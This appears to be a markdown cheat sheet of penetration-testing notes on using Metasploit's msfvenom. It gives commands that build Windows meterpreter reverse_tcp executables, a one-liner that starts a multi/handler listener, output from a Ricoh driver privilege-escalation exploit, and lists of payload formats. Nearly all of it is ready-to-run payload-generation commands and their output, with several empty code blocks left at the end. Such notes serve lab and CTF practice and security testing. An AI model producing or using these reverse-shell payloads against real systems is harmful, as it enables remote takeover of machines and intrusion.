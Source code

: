 - [Syntax](#syntax)
- [32 bit](#32-bit)

# [Syntax](#syntax-1)
(not case sensitive, variable can be used for LHOST)
```sh
msfvenom -p <PAYLOAD> LHOST=<IP> LPORT=<port> -f <FORMAT> -o <OUTPUT>
msfvenom -p <PAYLOAD> LHOST=<IP> LPORT=<port> -f <FORMAT> -e <ENCODER> -i <ENCODE COUNT> -o <OUTPUT>
```

## [32 bit](#32-bit-1)
```sh
myip=127.0.0.1
port=3232
msfvenom -p windows/meterpreter/reverse_tcp lhost=$myip lport=$port -f exe -o rev3232.exe
```

### Capture 32 vs 64 bit (exploit/multi/handler) in One Liner
https://github.com/andrewjkerr/security-cheatsheets/blob/master/metasploit
```sh
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $myip;set LPORT $port;run;"
```

### Capture 32 vs 64 bit (exploit/multi/handler)
```sh
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp

# or

set payload windows/x64/meterpreter/reverse_tcp
```

### Examples 
```sh
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >

msf6 exploit(multi/handler) > grep yes options
   LHOST                   yes       The listen address (an interface may be specified)                                              
   LPORT  4444             yes       The listen port
```

### list all payloads
```
msfvenom -l payloads
```

## Common Mistake

### The payload should use the same architecture as the target driver
```sh
msf6 exploit(windows/local/ricoh_driver_privesc) > run 

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[-] Exploit aborted due to failure: bad-config: The payload should use the same architecture as the target driver
[*] Deleting printer 
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/ricoh_driver_privesc) >
```

## 
```sh
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=$myip lport=1234 -a x64 -f exe -o rev64.exe           
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Error: The selected arch is incompatible with the payload
```

## 
```sh
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=$myip lport=6464 -a x64 -f exe -o r64.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: r64.exe
```

## 
```sh
$ file r*     
r32.exe: PE32 executable (GUI) Intel 80386, for MS Windows, 4 sections
r64.exe: PE32+ executable (GUI) x86-64, for MS Windows, 3 sections
```

### Options:
```sh
-l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all

-p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
   --list-options               List --payload <value>'s standard, advanced and evasion options

-f, --format          <format>   Output format (use --list formats to list)
```

### list format; -lf or -l -f or --list format (if you like to type)
```sh
$ msfvenom -lf

Framework Executable Formats [--format <value>]
===============================================

    Name
    ----
    asp
    aspx
    aspx-exe
    axis2
    dll
    ducky-script-psh
    elf
    elf-so
    exe
    exe-only
    exe-service
    exe-small
    hta-psh
    jar
    jsp
    loop-vbs                                                                                                                         
    macho                                                                                                                            
    msi
    msi-nouac
    osx-app
    psh
    psh-cmd
    psh-net
    psh-reflection
    python-reflection
    vba
    vba-exe
    vba-psh
    vbs
    war

Framework Transform Formats [--format <value>]
==============================================

    Name
    ----
    base32
    base64
    bash
    c
    csharp
    dw
    dword
    go
    golang
    hex
    java
    js_be
    js_le
    masm
    nim
    nimlang
    num
    perl
    pl
    powershell
    ps1
    py
    python
    raw
    rb
    ruby
    rust
    rustlang
    sh
    vbapplication
    vbscript
```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

# References

[MSFVenom - CheatSheet
 by hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom)

[MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter by infinitelogins)](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)
